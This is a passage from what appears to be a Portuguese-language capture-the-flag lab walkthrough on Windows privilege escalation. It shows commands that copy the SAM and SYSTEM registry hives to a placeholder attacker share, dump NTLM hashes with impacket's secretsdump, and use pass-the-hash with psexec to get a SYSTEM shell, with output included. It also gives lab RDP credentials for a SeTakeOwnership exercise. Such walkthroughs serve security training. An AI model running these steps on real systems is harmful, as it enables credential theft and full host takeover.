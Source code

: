 ```shell
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

E use impacket para recuperar hashes de senha dos usuários:
Kali Linux em inglês

user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


        

Finalmente podemos usar o hash do administrador para realizar um ataque Pass-the-Hash e obter acesso à máquina de destino com privilégios SYSTEM:
Kali Linux em inglês

user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
        


SeTakeOwnershipTradução

O privilégio SeTakeOwnership permite que um usuário se aproprie de qualquer objeto no sistema, incluindo arquivos e chaves de registro, abrindo muitas possibilidades para um invasor elevar privilégios, como poderíamos, por exemplo, procurar um serviço em execução como SISTEMA e assumir a propriedade do executável do serviço. Para esta tarefa, estaremos tomando um caminho diferente, no entanto.

Faça login na máquina de destino via RDP usando as seguintes credenciais:

O usuário: THMTakeOwnership

Senha: TheWorldIsMine2022

Para obter o privilégio SeTakeOwnership, precisamos abrir um prompt de comando usando a opção "Abrir como administrador". Nós seremos solicitados a inserir nossa senha para obter um console elevado:

Run as admin
